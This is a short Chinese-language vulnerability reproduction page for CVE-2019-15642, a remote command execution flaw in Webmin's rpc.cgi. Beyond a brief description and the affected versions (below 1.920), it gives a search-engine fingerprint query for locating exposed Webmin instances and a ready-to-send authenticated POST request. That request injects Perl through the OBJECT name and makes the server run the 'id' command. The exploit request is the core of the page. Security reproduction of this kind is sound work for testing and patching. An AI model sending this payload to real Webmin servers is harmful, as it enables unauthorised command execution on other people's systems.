 # Webmin rpc.cgi 后台远程命令执行漏洞 CVE-2019-15642

## 漏洞描述

Webmin是一套基于Web的用于类Unix操作系统中的系统管理工具。
 Webmin 1.920及之前版本中的rpc.cgi文件存在安全漏洞。攻击者可借助特制的对象名称利用该漏洞执行代码。

## 漏洞影响

<a-checkbox checked>Webmin < 1.920</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="webmin"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1661479903495-110cfdb8-0a65-4ffb-8779-62b388a34563-20220827185020021.png)

登录后发送请求包

```php
POST /rpc.cgi 
Referer: https://xxx.xxx.xxx.xxx/sysinfo.cgi?xnavigation=1

OBJECT Socket;print "Content-Type: text/plain\n\n";$cmd=`id`;print "$cmd\n\n";
```

![img](../../../.vuepress/public/img/1661594728166-0b339795-35a4-48c7-9158-5e1f4ac9ca6e.png)